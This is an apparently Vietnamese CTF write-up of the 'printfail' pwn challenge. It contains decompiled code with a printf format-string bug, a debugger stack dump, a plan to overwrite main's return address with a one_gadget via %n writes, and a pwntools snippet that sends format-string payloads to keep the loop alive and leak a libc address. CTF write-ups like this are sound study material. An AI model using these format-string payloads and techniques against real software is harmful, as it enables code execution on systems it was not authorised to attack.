 # printfail

## IDA

```c
int __fastcall run_round(_DWORD *a1)
{
  memset(buf, 0, sizeof(buf));
  fflush(stdout);
  if ( !fgets(buf, 512, stdin) )
    return 0;
  *a1 = strlen(buf) <= 1;
  return printf(buf);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v5; // [rsp+8h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  puts("I'll let you make one printf call. You control the format string. No do-overs.");
  v4 = 1;
  while ( v4 )
  {
    if ( !(unsigned int)run_round(&v4) )
      return 0;
    if ( v4 )
      puts("...That was an empty string. Come on, you've at least gotta try!\nOkay, I'll give you another chance.");
  }
  return 0;
}
```

## Định hướng

Em được hint là ow giá trị v4 của while để ta có thể đưa nhiều payload của mình vào.
Đầu tiên em thấy khi nhập giá trị ở hàm fgets và kiểm tra stack, em thấy dữ liệu nhập vào không lưu trong stack:

```c
───────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x555555555259 → run_round()
[#1] 0x5555555552d0 → main()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
0x007fffffffdc80│+0x0000: 0x007fffffffddc8  →  0x007fffffffe064  →  "/mnt/d/ctf/utctf/printfail"         ← $rsp
0x007fffffffdc88│+0x0008: 0x007fffffffdca4  →  0x6305730000000001
0x007fffffffdc90│+0x0010: 0x007fffffffdcb0  →  0x0000000000000001        ← $rbp
0x007fffffffdc98│+0x0018: 0x005555555552d0  →  <main+60> test eax, eax
0x007fffffffdca0│+0x0020: 0x0000000100001000
0x007fffffffdca8│+0x0028: 0x6890f61163057300
0x007fffffffdcb0│+0x0030: 0x0000000000000001
0x007fffffffdcb8│+0x0038: 0x007ffff7db5d90  →  <__libc_start_call_main+128> mov edi, eax
0x007fffffffdcc0│+0x0040: 0x0000000000000000
0x007fffffffdcc8│+0x0048: 0x00555555555294  →  <main+0> endbr64
```

Đến đây em khá bí và xin hint thì được hint là tìm cách thay đổi ret của hàm main là `c 0x007fffffffdcb8│+0x0038: 0x007ffff7db5d90  →  <__libc_start_call_main+128> mov edi, eax`
Em nghĩ là mình sẽ tìm địa chỉ stack nào đó có trỏ đến địa chỉ ret để thay đổi thành one_gadget.
Em tiếp tục tìm nhưng vẫn chưa thấy địa chỉ nào trỏ trực tiếp đến ret
Bí quá em xin hint và coi lại video 20 thì em thấy ở đây, có thể sử dụng để khai thác:

```c
0x007fffffffdc80│+0x0000: 0x007fffffffddc8  →  0x007fffffffe064  →  "/mnt/d/ctf/utctf/printfail" ,    ← $rsp  //here
0x007fffffffdc88│+0x0008: 0x007fffffffdca4  →  0x6305730000000001
0x007fffffffdc90│+0x0010: 0x007fffffffdcb0  →  0x0000000000000001        ← $rbp
```

thì các bước em khai thác như sau:

- dùng %n trỏ đến vị trí thứ 6, và ghi đè `0x007fffffffe064` thành `0x007fffffffdcb8` , khi đó tại `0x007fffffffddc8` ta có:

```c
0x007fffffffddc8 : 0x007fffffffdcb8  →  0x007ffff7db5d90  →  <__libc_start_call_main+128> mov edi, eax
```

- dùng %n trỏ đến vị trí thứ 43 đổi `0x007fffffffdcb8  →  0x007ffff7db5d90` thành one_gadget. okela

# Thực thi

Đầu tiên do file ko có hàm system nên ta sẽ phải leak libc.
Ta nên chọn vị trí 13 để leak vì nó là save rip của main và theo video 20 chú thích thì save rip nó tỉ lệ đúng hơn vì leak những thằng sau, khi chạy server nó là địa chỉ rác.

```python
    # %8c%7$n là để thoả điều kiện chạy loop để có thể input nhiều lần, nó đọc 8 kí tự từ %c và ghi vào 
    r.sendlineafter(b"do-overs.\n", b"%8c%7$n %13$p") 
    r.recvuntil(b"0x")
    leak = int(b"0x" + r.recvline(keepends=False), 16)
    libc.address = leak - 147587
    log.info("leak libc: " + hex(leak))
    log.info("leak base: " + hex(libc.address)) #leak libc tính địa chỉ base nè
```
